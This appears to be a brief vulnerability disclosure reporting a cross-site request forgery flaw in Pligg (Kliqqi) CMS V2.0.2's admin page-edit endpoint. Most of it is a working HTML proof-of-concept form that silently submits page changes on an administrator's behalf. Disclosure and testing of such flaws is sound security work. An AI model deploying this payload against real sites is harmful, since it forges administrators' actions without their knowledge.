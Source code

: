 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/edit_page.php?link_id=1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/edit_page.php?link_id=1" method="POST">
      <input type="hidden" name="link_id" value="1" />
<input type="hidden" name="page_title" value="cs123" />
<input type="hidden" name="page_url" value="cs" />
<input type="hidden" name="page_keywords" value="" />
<input type="hidden" name="page_description" value="" />
<input type="hidden" name="page_content" value="" />
<input type="hidden" name="submit" value="Save+Page" />
<input type="hidden" name="process" value="edit_page" />
<input type="hidden" name="link_id" value="1" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

